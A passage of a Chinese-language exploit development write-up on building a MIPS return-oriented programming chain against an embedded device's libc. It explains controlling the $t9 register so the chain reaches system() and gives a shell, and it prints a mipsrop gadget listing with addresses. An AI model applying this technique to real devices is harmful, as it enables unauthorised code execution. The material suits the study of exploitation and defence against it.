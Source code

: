 不幸的是，li 指令阻止了通过 ROP 在调用 system() 之前直接修改 $gp 的可能性，因为这里 $gp 将作为立即数值加载（(unk_9C2D0+0x7FF0 - .)）；然而，进一步查看，你会发现 addu $gp, $t9，这告诉我们实际的原因是寄存器 $t9。这既是好消息又是坏消息。一方面，找到通过堆栈值修改 $gp 并 jmp 到另一个堆栈值的 gadget 几乎是不可能的，因为 $gp 几乎无法通过堆栈值进行修改，而找到 $t9 将容易得多。另一方面，我们可能需要构建一个全新的 ROP-chain 来进行利用。  
  
但在设计一个修改 $t9 寄存器的链之前，最好先检查一下什么值适合 $t9：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZEkT0Rn34yGKTU8En1lUTWmh7rj1ico6A4icdsRoYdia7vhcPg2EiawpsVBBQFOLpP5nIkWWcqzJdeiaicuIwyiayYcCw/640?wx_fmt=png&from=appmsg "")  
  
通过在 0x77f59000+0x004E630 处设置断点（system()）；我们可以发现，尽管调用了不同的命令作为 $a0，但 $t9 寄存器将始终设置为这个魔法地址 - 0x77fa7630，它恰好是 system() 符号的起始命令；还使 $t9, -0x7f90($gp) 成为 libc.so 分配内存中的合法地址 -> 0x77ff4000 0x77ff6000 rw-p 2000 8b000 /lib/libc.so；现在是时候为我们构建带有 $t9 操作的 ROP-Chain，同时允许 $a0 为 任意 并 jmp 到已加载的 system() 在 libc 中。  
  
百万美元的问题是：我们如何在允许我们最终 jmp 到我们之前的 $a0 获取 shell gadget 的同时控制 $t9；嗯，这需要另一种 mipsrop-ing。通过搜索 move $t9；我们可以找到大量符合我们期望的 $t9 修改 gadget，无论是通过直接赋值还是通过寄存器的间接方式：  
```
Python>mipsrop.find('move $t9')
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
# tons of indentical gadgets at different address in libc.so.....
|  0x0006D970  |  move $t9,$s4                                        |  jr    $s4                             |
|  0x0006EFA0  |  move $t9,$s3                                        |  jalr  $s3                             |
|  0x0006EFD0  |  move $t9,$s3                                        |  jalr  $s3                             |
|  0x00070E14  |  move $t9,$s2                                        |  jalr  $s2                             |
|  0x00072E00  |  move $t9,$s3                                        |  jalr  $s3                             |
|  0x00075474  |  move $t9,$v0                                        |  jr    $v0                             |
|  0x00078190  |  move $t9,$s1                                        |  jalr  $s1                             |
|  0x000783D0  |  move $t9,$s1                                        |  jalr  $s1                             |
|  0x000784DC  |  move $t9,$s1                                        |  jalr  $s1                             |
|  0x0007A19C  |  move $t9,$t1                                        |  jalr  $t1                             |
|  0x0007A1B4  |  move $t9,$t0                                        |  jalr  $t0                             |
|  0x0007EA1C  |  move $t9,$t0                                        |  jalr  $t0                             |
|  0x0007EBD8  |  move $t9,$s2                                        |  jalr  $s2                             |
|  0x0001B014  |  move $t9,$s4                                        |  jr    0x1C+var_s18($sp)               |
----------------------------------------------------------------------------------------------------------------

```  
  